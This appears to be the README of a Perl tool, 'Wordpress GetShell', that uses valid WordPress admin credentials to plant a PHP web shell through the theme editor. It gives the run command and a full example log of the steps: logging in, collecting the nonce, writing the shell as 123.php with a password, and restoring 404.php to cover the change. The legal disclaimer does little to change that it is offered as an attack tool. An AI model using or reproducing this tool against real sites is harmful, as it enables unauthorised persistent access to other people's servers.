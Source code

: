 # Wordpress GetShell - Public Edition

With a valid combination of username and password, the scripts below demostrates how to plant a PHP shell automatically

# Example usage

```
%> perl wp-getshell.pl http://ubuntu64/wordpress admin admin
[+] Logged in, replacing cookies
[+] Now looking for editor
[+] Editor found, old content length 48
[+] Building forms
    --> _wpnonce with value 09f8f3fb95
    --> file with value 404.php
    --> _wp_http_referer with value /wordpress/wp-admin/theme-editor.php?file=404.php
    --> scrollto with value 0
    --> theme with value twentyfourteen
    --> action with value update
[+] Saving files
[+] Accessing previously saved file
[+] Restoring contents of 404.php
[+] Checking if shell is in place
[+] PHP shell ready
    URL:  http://ubuntu64/wordpress/123.php
    Pass: xxx
```

# Legal disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.
